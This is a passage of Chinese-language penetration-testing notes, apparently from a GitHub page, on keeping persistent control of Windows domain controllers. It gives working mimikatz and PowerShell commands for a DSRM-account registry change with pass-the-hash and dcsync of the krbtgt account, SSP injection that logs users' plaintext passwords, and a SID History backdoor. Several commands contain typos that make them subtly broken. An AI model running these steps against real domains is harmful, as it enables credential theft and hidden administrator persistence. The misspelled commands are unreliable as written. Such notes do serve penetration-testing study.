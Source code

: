 ```sh
New-ItemProperty "hklm:\system\currentcontrolset\control\las\" -name "DsrmAdminLogonBehavior" -value 2 -propertyTypr DWORD
# 使用DSRM账号通过网络远程登录域控制器
privilege::debug
sekurlsa::pth /domain:DC /user:Adminstrator /ntml:<hsah>
lsadump::dcsync /domain:<domainname> /dc:dc /user:kerbtgt
```

## SSP维持域控权限

SSP（Security Support Provider）是Windows操作系统安全机制的提供者。简单来说，SSP就是一个DLL文件，主要用来实现Windows操作系统的身份认证功能。例如NTLM，Kerberos等

SSPI是Windows操作系统在执行认证操作时使用的API接口。可以说，SSPI是SSP的API接口

如果获得了网络中目标机器的System权限，可以使用该方法进行持久化操作。其主要原理是：LSA用于身份验证；lsass.exe作为Windows的系统进程，用于本地安全策略和登录策略；在系统启动时，SSP将被加载到lsass.exe进程中。但是，加入攻击者对LSA进行了扩展，自定义了恶意的DLL文件，在系统启动时将其加载到lsass.exe进程中，就能过获取lsass.exe进程中的明文密码。这样，及时用户更改密码并重新登录，攻击者仍然可以获取该账号的新密码

### mimikatz伪造SSP注入内存

```
# 方法一
privilege::debug
misc::memssp
登陆的明文密码将会被存储到C:\windows\system32\mimilsa.log
```

```
# 方法二
1. 将mimilib.dll复制到系统的C:\Windows\System32\目录下
2. 修改HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa\Security Packages
登录的明文密码将会被存储到C:\windows\system32\kiwissp.log
```

## SID History域后门

每个用户都有自己的SID。SID的作用主要是跟中安全主体控制用户连接资源是的访问权限。SID History是在与前一过程中需要使用的一个属性

如果将A域中的域用户迁移到B域中，那么在B域中新建的用户的SID会随之改变，进而影响迁移后用户的权限，导致迁移后的用户不能访问本来可以访问的资源。SID History的作用是在域迁移过程中保持域用户的访问权限，即如果迁移后用户的SID改变了，系统会将其原来的SID添加到迁移后用户的SID HIstory属性中，使迁移后的用户保持原有的权限，能够访问其原来可以访问的资源。使用mimikitz，可以将SID History属性添加到域中任意用户的SID History属性中。在渗透测试中，如果获得了域管理员权限，就可以将SID History作为实现持久化的方法

### 具体操作

```sh
# 查看用户的SID History属性
Import-Module activedirectory
Get-ADUser test -Properties sidhistory
# 打开一个具有管理员权限的命令行窗口
privilege::debug
sid::add /sam:test /new:administrator
```
